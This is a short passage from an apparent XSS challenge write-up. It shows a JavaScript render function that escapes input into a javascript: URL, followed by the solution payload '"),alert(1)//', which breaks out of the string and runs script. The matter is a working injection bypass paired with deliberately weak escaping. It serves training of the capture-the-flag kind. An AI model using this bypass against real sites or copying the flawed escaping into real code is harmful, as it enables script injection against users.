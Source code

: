 - server code

```js
// from alf.nu
function render (s) {
  function escapeJs (s) {
    return String(s)
            .replace(/\\/g, '\\\\')
            .replace(/'/g, '\\\'')
            .replace(/"/g, '\\"')
            .replace(/`/g, '\\`')
            .replace(/</g, '\\74')
            .replace(/>/g, '\\76')
            .replace(/\//g, '\\/')
            .replace(/\n/g, '\\n')
            .replace(/\r/g, '\\r')
            .replace(/\t/g, '\\t')
            .replace(/\f/g, '\\f')
            .replace(/\v/g, '\\v')
            // .replace(/\b/g, '\\b')
            .replace(/\0/g, '\\0')
  }
  s = escapeJs(s)
  return `
<script>
  var url = 'javascript:console.log("${s}")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>
`
}
```

- solution

闭合标签。

```html
//input code
"),alert(1)//
//html
<script>
  var url = 'javascript:console.log("\"),alert(1)\/\/")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>
```

## 0x12
